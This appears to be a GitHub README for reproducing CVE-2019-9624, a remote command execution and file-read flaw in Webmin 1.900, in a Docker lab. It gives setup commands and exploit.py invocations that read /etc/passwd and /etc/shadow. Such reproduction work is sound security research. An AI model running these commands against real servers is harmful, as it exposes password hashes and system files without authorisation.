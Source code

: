 # CVE-2019-9624

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9624>


## Exploit
* <https://pentest.com.tr/exploits/Webmin-1900-Remote-Command-Execution.html>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900


## Reproduction 

* Server
    - Docker version
        ```shell script
        docker run --rm -p 10000:10000 -it simaofsilva/cve-2019-9624
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        ```
* Client
```shell script
python3 exploit.py --host SERVER_IP --port 10000 -u test --pass qwerty --file FILE_TO_GET
```      
     
A file will be uploaded allowing to any user to see any system file.      
Examples of use:
* <https://SERVER-IP:10000/file/show.cgi/etc/shadow>
* `python3 exploit.py --host <SERVER-IP> --port 10000 -u test --pass qwerty --file "/etc/passwd"`
